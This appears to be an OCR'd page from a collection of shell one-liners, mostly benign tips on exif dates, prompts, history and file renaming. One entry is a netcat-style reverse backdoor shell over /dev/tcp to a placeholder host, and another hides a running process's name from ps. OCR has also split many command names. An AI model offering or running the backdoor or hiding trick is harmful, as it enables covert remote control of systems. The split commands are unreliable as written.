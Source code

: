 # ex

##### Hide the name of a process listed in the `ps` output

   ex ec -a "$(ps -fea | awk '{print $8}'| sort -R | head -n1)" your_command -sw1 -sw2

##### convert finenames containing a numeric index from differing to fixed index-length; padding required zeroes in front of first number

   ex port l=$1; shift; rename 'my $l=$ENV{'l'}; my $z="0" x $l; s/\d+/substr("$z$&",-$l,$l)/e' "$@"

##### Reverse Backdoor Command Shell using Netcat

   ex ec 5<>/dev/tcp/<your-box>/8080;cat <&5 | while read line; do $line 2>&5 >&5; done

##### set timestamp in exif of a image

   ex iv2 -M"set Exif.Photo.DateTimeOriginal `date "+%Y:%m:%d %H:%M:%S"`" filename.jpg

##### IFS - use entire lines in your for cycles

   ex port IFS=$(echo -e "\n")

##### save  date and time for each command in history

   ex port HISTTIMEFORMAT="%h/%d-%H:%M:%S "

##### exa

   ex a -glhrSuU -s size group-directories-first -@ | less -R

##### command to change the exif date time of a image

   ex iftool -DateTimeOriginal='2009:01:01 02:03:04' file.jpg

##### Better PS aliases

   ex port PSOA='user,pid,time,state,command' ; function _ps { /bin/ps $@ ; } ; alias psa='_ps ax -o $PSOA'

##### Day Date Time>  Instead of $ or # at the terminal

   ex port PS1='\D{%a %D %T}> '

##### Find most used focal lengths in a directory of photos

   ex iv2 *JPG | grep Focal | awk '{print $5}' | sort -n | uniq -c

##### Expand shell variables in sed scripts

   ex panded_script=$(eval "echo \"$(cat ${sed_script_file})\"") && sed -e "${expanded_script}" your_input_file

##### recursively add all sub folders with executable file of current folder to PATH environment variable
